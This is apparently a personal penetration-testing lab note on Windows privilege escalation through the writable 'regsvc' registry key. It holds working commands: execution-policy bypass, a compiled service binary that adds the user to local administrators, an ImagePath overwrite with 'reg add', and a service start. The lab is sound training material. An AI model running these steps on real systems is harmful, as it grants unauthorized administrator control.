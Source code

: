 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

 **Detection**

Open PowerShell prompt and type: 

```command prompt - windows
powershell -ep bypass
```

```powershell - windows
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl  
```

Notice that the output suggests that user belong to “NT AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry key.

![[Pasted image 20220207105736.png]]

```
.\winPEASx64.exe servicesinfo
```

![[Pasted image 20220609133644.png]]

**Exploitation**

Copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.

Open windows_service.c in a text editor and replace the command used by the system() function to (line 15): 

[[windows_service.c]]

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_service.c -o x.exe 
```

(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')

Copy the generated file x.exe, to the Windows VM.

[[4._File Transfers]]

Place x.exe in `C:\Temp`.

Open command prompt at type: 

```command prompt - kali
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f  
```

In the command prompt type: 

```command prompt - kali
sc start regsvc
```

```command prompt - kali
sc start regsvc
```

[[___.Misc Commands#Restart host]]

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```command prompt - windows
net localgroup administrators
```

